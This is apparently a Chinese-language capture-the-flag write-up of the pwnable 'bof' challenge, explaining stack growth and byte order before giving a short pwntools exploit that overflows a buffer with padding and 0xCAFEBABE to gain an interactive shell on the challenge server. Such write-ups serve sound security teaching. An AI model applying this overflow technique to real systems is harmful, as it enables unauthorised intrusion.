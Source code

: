 ```yaml
---
title: pwnable靶场ak-WP （3）bof利用
poc: true
categories:
  - - CTF
tags: []
id: '650'
date: 2021-09-01 21:58:24
---
```


## 背景

自己琢磨了一下口算十六进制的加减法和正负数运算，在EBP分界处计算偏移还是挺有用的

## 正文

本体难度低，补一个栈笔记就行

虽然栈是向低地址增长的，但是由于宏观遍历和微观计数器变化需要统一——即当从0遍历到高位时，计数器从0开始步进，步长为1，因此gets一次性存储一个长字符串时，字符串的低位字符，存在地址的高位（看起来似乎和小端相反，但前面也说过，其实小端研究的不是这个）

EXP如下

```
from pwn import *
conn=remote("128.61.240.205",9000)
conn.sendline('AAAA'*13+ p32(0xCAFEBABE))
conn.interactive()
```

payload是

AAAA....AAAACAFEBABE

字符串低位CAFEBABE储存在栈的高位（ebp栈底之外）

![](https://www.ksroido.art/wp-content/uploads/2021/09/image-1.png)